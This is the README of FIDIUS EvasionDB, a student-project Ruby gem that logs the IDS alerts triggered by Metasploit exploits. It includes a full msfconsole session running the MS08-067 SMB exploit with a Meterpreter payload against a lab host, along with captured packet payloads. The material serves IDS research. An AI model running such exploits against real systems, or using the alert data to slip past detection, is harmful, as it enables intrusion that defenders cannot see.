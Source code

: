 # FIDIUS EvasionDB

The FIDIUS EvasionDB Gem provides a database which contains knowledge about metasploit exploits
and their corresponding alerts/events produced by intrusion detection systems (IDS). It includes a
Metasploit plugin which supports the recording of thrown alerts during the execution of an exploit.

## Description

This gem is developed in the context of the students project "FIDIUS" at the
University of Bremen, for more information about FIDIUS visit [fidius.me](http://fidius.me/en).

## Installation

Simply install this package with Rubygems:

    $ gem install fidius-evasiondb

Then switch to the root directory of your Metasploit installation and run

    $ fidius-evasiondb -c

Follow the instructions. 

This Gem currently uses 2 databases:

 * `ids_db`: A Prelude Manager database for fetching IDMEF events.
 * `evasion_db`: Knowledge database for information about exploits and their IDMEF events.

Please note: The Evasion-DB Gem has only been tested with Linux systems and might not work with Windows.

## Configuration

The database configuration can be found in

    path/to/your/metasploit/root/data/database.yml 

It has been tested with PostgreSQL and MySQL databases but should work for others, too.

## Usage

There are two possibilities to use this Gem, either inside the Metasploit console (with a plugin) or
from external scripts by requiring the Gem. The first method (use in `msfconsole`) is intended to
generate knowledge about exploits. You can execute any module withhin metasploit and log
corresponding IDMEF events. 

Please note: Currently it is only possible to fetch IDMEF events from an existing and configured
Prelude Manager database. At the beginning of a module execution, the timestamp and number of total
events in prelude are measured. After the module is finished newly generated events are identified
via timestamp and the attackers source IP address.

### In `msfconsole`

Example for monitoring an exploit. After loading the plugin all modules which are executed by
metasploit will be monitored. All payload which is send to the target will be stored in the
Knowledge database. After executing of the module finished generated IDMEF events will be fetched
from the Prelude database and stored to the Knowledge database, too.
  
    $ msf > load evasiondb
    $ [*] EvasionDB plugin loaded.
    $ [*] Successfully loaded plugin: FIDIUS-EvasionDB
    $ msf > use exploit/windows/smb/ms08_067_netapi
    $ msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
    $ PAYLOAD => windows/meterpreter/bind_tcp
    $ msf exploit(ms08_067_netapi) > set RHOST 10.20.20.1
    $ RHOST => 10.20.20.1
    $ msf exploit(ms08_067_netapi) > exploit
    $ [*] Started bind handler
    $ [*] Automatically detecting the target...
    $ [*] Fingerprint: Windows XP - Service Pack 2 - lang:German
    $ [*] Selected Target: Windows XP SP2 German (NX)
    $ [*] Attempting to trigger the vulnerability...
    $ [*] Sending stage (749056 bytes) to 10.20.20.1
    $ [*] Meterpreter session 1 opened (10.0.0.100:52764 -> 10.20.20.1:4444) at 2011-03-28 16:42:53 +0200
    $ meterpreter > exit
    $ [*] Meterpreter session 1 closed.  Reason: User exit
    $ msf exploit(ms08_067_netapi) > show_events
    $ ------------------------------------------------------------
    $ exploit/windows/smb/ms08_067_netapi with 47 options
    $ ------------------------------------------------------------
    $ 11 idmef-events fetched
    $ ------------------------------------------------------------
    $ (1)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (2)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (3)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (4)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (5)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (6)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (7)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
    $ (8)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
    $ (9)ET EXPLOIT x86 JmpCallAdditive Encoder with 759 bytes payload
    $ (10)ET EXPLOIT x86 JmpCallAdditive Encoder with 467 bytes payload
    $ (11)NETBIOS SMB-DS IPC$ share access with 72 bytes payload
    $ msf exploit(ms08_067_netapi) > 

### From external script

* Require the gem, call `connect_db`.
* Only queries are possible.

### Queries

Sample how the knowledge in EvasionDB can be queried:

    ruby-1.9.1-p378 > require 'fidius-evasiondb'
    => true 
    ruby-1.9.1-p378 > FIDIUS::EvasionDB.config "data/database.yml"
    ruby-1.9.1-p378 > events = FIDIUS::EvasionDB::Knowledge.find_events_for_exploit "exploit/windows/smb/ms08_067_netapi"
    ruby-1.9.1-p378 > events.size
    => 11 
    ruby-1.9.1-p378 > events.first.severity
    => "medium" 
    ruby-1.9.1-p378 > events.first.text
    => "COMMUNITY SIP TCP/IP message flooding directed to SIP proxy" 

### Find an Exploit

    ruby-1.9.1-p378 > m = FIDIUS::EvasionDB::Knowledge::AttackModule.first
    => #<FIDIUS::EvasionDB::Knowledge::AttackModule id: 1, name: "exploit/windows/smb/ms08_067_netapi", options_hash: "4d70ba1e95523e6d602e316a2553decf", finished: true, created_at: "2011-04-02 13:43:44", updated_at: "2011-04-02 13:45:05">

### Find IdmefEvents

    ruby-1.9.1-p378 > event = m.idmef_events.first
    => #<FIDIUS::EvasionDB::Knowledge::IdmefEvent id: 1, attack_module_id: 1, attack_payload_id: nil, payload: "wrong lookup type\x00\x00\x00unsupported algorithm\x00\x00\x00unknown...", detect_time: "2011-04-02 13:44:30", dest_ip: "10.20.20.1", src_ip: "10.0.0.100", dest_port: 4444, src_port: 45944, text: "COMMUNITY SIP TCP/IP message flooding directed to S...", severity: "medium", analyzer_model: "prelude-manager", ident: 1076676, created_at: "2011-04-02 13:45:03", updated_at: "2011-04-02 13:45:05"> 

### Find Packets

    ruby-1.9.1-p378 > m.packets.first
    => #<FIDIUS::EvasionDB::Knowledge::Packet id: 1, attack_module_id: 1, attack_payload_id: nil, src_addr: "0.0.0.0", dest_addr: "10.20.20.1", src_port: "0", dest_port: "445", payload: "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02...", created_at: "2011-04-02 13:43:47", updated_at: "2011-04-02 13:43:47"> 

### Find Payload of Packet

    ruby-1.9.1-p378 > m.packets.first.payload
    => "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02LM1.2X002\x00\x02NT LANMAN 1.0\x00\x02NT LM 0.12\x00" 


### Find Options of Exploit

    ruby-1.9.1-p378 > m.attack_options.first.option_key
    => "EXITFUNC" 
    ruby-1.9.1-p378 > m.attack_options.first.option_value
    => "thread" 

## Authors and Contact

fidius-evasiondb was written by

* FIDIUS Intrusion Detection with Intelligent User Support
  <grp-fidius+evasiondb@tzi.de>, <http://fidius.me>
* in particular:
 * Bernhard Katzmarski <bkatzm+evasiondb@tzi.de>
 * Jens Färber <jfaerber+evasiondb@tzi.de>

If you have any questions, remarks, suggestion, improvements, etc. feel free to drop a line at the 
addresses given above. You might also join `#fidius` on Freenode or use the contact form on our
[website](http://fidius.me/en/contact).


## License

Simplified BSD License and GNU GPLv2. See also the file LICENSE.
